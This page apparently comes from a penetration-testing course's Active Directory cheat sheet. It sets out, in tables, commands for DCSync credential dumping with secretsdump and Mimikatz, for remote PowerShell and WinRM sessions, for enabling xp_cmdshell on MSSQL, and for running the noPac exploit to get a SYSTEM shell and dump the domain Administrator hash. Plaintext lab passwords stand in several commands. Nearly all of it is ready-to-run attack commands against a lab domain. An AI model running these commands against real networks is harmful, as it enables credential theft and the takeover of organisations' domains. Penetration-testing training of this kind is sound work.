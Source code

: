 | `$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164" Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs \| ? { ($_.ObjectAceType -match 'Replication-Get')} \| ?{$_.SecurityIdentifier -match $sid} \| select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType \| fl` | Used to create a variable called SID that is set equal to the SID of a user account. Then uses PowerView tool `Get-ObjectAcl` to check a specific user's replication rights. Performed from a Windows-based host. |
| `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss` | Impacket tool sed to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (`172.16.5.5`) and save the extracted hashes to an file (`inlanefreight_hashes`). Performed from a Linux-based host. |
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host. |



# Privileged Access 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"` | PowerView based tool to used to enumerate the `Remote Desktop Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host. |
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"` | PowerView based tool to used to enumerate the `Remote Management Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host. |
| `$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force` | Creates a variable (`$password`) set equal to the password (`Klmcargo2`) of a user from a Windows-based host. |
| `$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)` | Creates a variable (`$cred`) set equal to the username (`forend`) and password (`$password`) of a target domain account from a Windows-based host. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred` | Uses the PowerShell cmd-let `Enter-PSSession` to establish a PowerShell session with a target over the network (`-ComputerName ACADEMY-EA-DB01`) from a Windows-based host. Authenticates using credentials made in the 2 commands shown prior (`$cred` & `$password`). |
| `evil-winrm -i 10.129.201.234 -u forend`                     | Used to establish a PowerShell session with a Windows target from a Linux-based host using `WinRM`. |
| `Import-Module .\PowerUpSQL.ps1`                             | Used to import the `PowerUpSQL` tool.                        |
| `Get-SQLInstanceDomain`                                      | PowerUpSQL tool used to enumerate SQL server instances from a Windows-based host. |
| `Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'` | PowerUpSQL tool used to connect to connect to a SQL server and query the version (`-query 'Select @@version'`) from a Windows-based host. |
| `mssqlclient.py`                                             | Impacket tool used to display the functionality and options provided with `mssqlclient.py` from a Linux-based host. |
| `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth` | Impacket tool used to connect to a MSSQL server from a Linux-based host. |
| `SQL> help`                                                  | Used to display mssqlclient.py options once connected to a MSSQL server. |
| `SQL> enable_xp_cmdshell`                                   | Used to enable `xp_cmdshell stored procedure` that allows for executing OS commands via the database from a Linux-based host. |
| `xp_cmdshell whoami /priv`                                   | Used to enumerate rights on a system using `xp_cmdshell`.    |



# NoPac

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `sudo git clone https://github.com/Ridter/noPac.git`         | Used to clone a `noPac` exploit using git. Performed from a Linux-based host. |
| `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap` | Runs `scanner.py` to check if a target system is vulnerable to `noPac`/`Sam_The_Admin` from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap` | Used to exploit the `noPac`/`Sam_The_Admin`  vulnerability and gain a SYSTEM shell (`-shell`). Performed from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator` | Used to exploit the `noPac`/`Sam_The_Admin`  vulnerability and perform a `DCSync` attack against the built-in Administrator account on a Domain Controller from a Linux-based host. |


